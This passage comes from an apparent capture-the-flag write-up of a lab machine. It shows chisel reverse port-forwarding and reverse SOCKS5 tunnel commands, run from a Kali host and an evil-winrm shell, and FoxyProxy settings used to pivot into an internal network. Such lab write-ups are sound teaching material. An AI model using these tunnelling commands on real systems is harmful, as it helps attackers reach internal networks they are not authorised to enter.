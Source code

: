 **on kali**

```bash
./chisel server -p 9999 --reverse
```

**on evil-winrm**

```bash
./chisel.exe client 10.10.14.146:9999 R:9251:172.16.22.1:9251
```

after that i check the page on firefox using address http://127.0.0.1:9251 with **not found** reponse, this is weird actually. Googling again about that things and lead me into this [blog](https://www.hdysec.com/port-forward-tunnels/). This guy playing some **TryHackMe machine** with the same condition with this machine. we can leverage our port forwarding using **SOCKS**. execute this command below:

```bash
./chisel.exe client 10.10.14.146:9251 R:socks
```

![](/assets/img/cerberus/15.png)

on kali command

```bash
./chisel server -p 9251 --reverse --socks5 &
```

![](/assets/img/cerberus/16.png)

change type on foxyproxy into **SOCKS5** with i**p 127.0.0.1** and port **1080**

![](/assets/img/cerberus/17.png)
